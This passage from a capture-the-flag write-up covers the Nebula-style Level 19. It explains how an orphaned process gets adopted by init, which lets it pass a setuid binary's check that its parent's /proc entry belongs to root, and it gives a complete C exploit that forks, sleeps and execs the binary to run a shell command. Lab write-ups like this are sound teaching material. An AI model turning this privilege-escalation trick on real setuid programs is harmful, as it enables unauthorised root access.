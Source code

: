 	  globals.loggedin = 1;

	}

Because if `fopen()` is opened and the contents are read, we immediately close it again. But apparantly
this doesn't somehow happen and the fds stay open. Why?

## Level 19 - Zombie Processes belong to init!

In level 19 we have a setuid C program that first creates a path to the `procfs` of its parent
process: `snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());`.

We need to achieve that `stat()` returns `st_uid == 0` for the created file. This is only possible if the
parent process /proc/pid directory is owned by the root user.

I didn't solve this level on my own and peeked at the solution at <>. The basic idea is to make use of 
the default behaviour of unix processes, that they are reassigned to the init process, when its parent process
exits before the child process stops. 

So the idea is to create a program that `forks`, wait's until the parent process dies (by calling `sleep`) and finally
calls the `/home/flag19/flag19` setuid binary with `execve()`.

	:::C
	#include <unistd.h>

	int main(int argc, char **argv, char **envp) {
	    int childPID = fork();
	    if(childPID >= 0) { // forked
	        if(childPID == 0) { // child
	            sleep(1);
	            setresuid(geteuid(),geteuid(),geteuid());
	            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
	            execve("/home/flag19/flag19", args, envp);
	        }
	    }
	    return 0;
	}